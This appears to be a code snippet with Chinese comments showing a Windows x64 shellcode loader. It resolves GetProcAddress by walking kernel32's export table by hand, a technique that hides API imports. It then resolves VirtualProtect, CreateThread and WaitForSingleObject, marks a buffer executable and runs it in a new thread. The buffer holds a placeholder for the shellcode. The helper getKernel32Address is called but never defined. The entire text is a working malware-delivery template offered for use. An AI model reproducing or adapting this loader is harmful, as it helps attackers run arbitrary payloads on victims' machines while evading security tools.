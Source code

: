 ```cpp
DWORD64 getGetProcAddress(HMODULE hKernal32) {
    // 获取 DOS 头
    PIMAGE_DOS_HEADER baseAddr = (PIMAGE_DOS_HEADER)hKernal32;
    // 获取 NT 头
    PIMAGE_NT_HEADERS pImageNt = (PIMAGE_NT_HEADERS)((LONG64)baseAddr + baseAddr->e_lfanew);
    // 获取导出表
    PIMAGE_EXPORT_DIRECTORY exportDir = (PIMAGE_EXPORT_DIRECTORY)((LONG64)baseAddr + pImageNt->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
    // 获取导出函数地址数组、导出函数名数组和导出函数序号数组
    PULONG RVAFunctions = (PULONG)((LONG64)baseAddr + exportDir->AddressOfFunctions);
    PULONG RVANames = (PULONG)((LONG64)baseAddr + exportDir->AddressOfNames);
    PUSHORT AddressOfNameOrdinals = (PUSHORT)((LONG64)baseAddr + exportDir->AddressOfNameOrdinals);

    // 遍历导出函数
    for (size_t i = 0; i < exportDir->NumberOfNames; i++) {
        // 获取当前函数地址
        LONG64 F_va_Tmp = (ULONG64)((LONG64)baseAddr + RVAFunctions[(USHORT)AddressOfNameOrdinals[i]]);
        // 获取当前函数名地址
        PUCHAR FunctionName = (PUCHAR)((LONG64)baseAddr + RVANames[i]);
        // 如果当前函数名是 "GetProcAddress"，返回其地址
        if (!strcmp((const char*)FunctionName, "GetProcAddress")) {
            return F_va_Tmp;
        }
    }
}

// 定义函数指针类型
typedef FARPROC(WINAPI* pGetProcAddress)(HMODULE, LPCSTR);
typedef BOOL(WINAPI* pVirtualProtect)(LPVOID, DWORD, DWORD, PDWORD);
typedef HANDLE(WINAPI* pCreateThread)(LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD);
typedef DWORD(WINAPI* pWaitForSingleObject)(HANDLE, DWORD);

int main() {
    // 定义包含 shellcode 的缓冲区
    unsigned char buf[] =
        "填写x64的shellcode";

    // 获取 Kernel32.dll 的基地址和GetProcAddress函数地址
    HMODULE hKernal32 = getKernel32Address(); // 获取Kernel32.dll的基地址
    pGetProcAddress GetProcAddress = (pGetProcAddress)getGetProcAddress(hKernal32); // 获取GetProcAddress函数地址
    
    //获取其他所需API函数地址
    pVirtualProtect VirtualProtect = (pVirtualProtect)GetProcAddress(hKernal32, "VirtualProtect");
    pCreateThread CreateThread = (pCreateThread)GetProcAddress(hKernal32, "CreateThread");
    pWaitForSingleObject WaitForSingleObject = (pWaitForSingleObject)GetProcAddress(hKernal32, "WaitForSingleObject");
    
    //修改shellcode缓冲区的内存保护属性，以便执行
    DWORD oldProtect;
    VirtualProtect((LPVOID)buf, sizeof(buf), PAGE_EXECUTE_READWRITE, &oldProtect);
    
    //创建新线程执行shellcode并等待其执行完成
    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)(LPVOID)buf, NULL, 0, NULL);
    WaitForSingleObject(hThread, INFINITE);
    return 0;
}
```
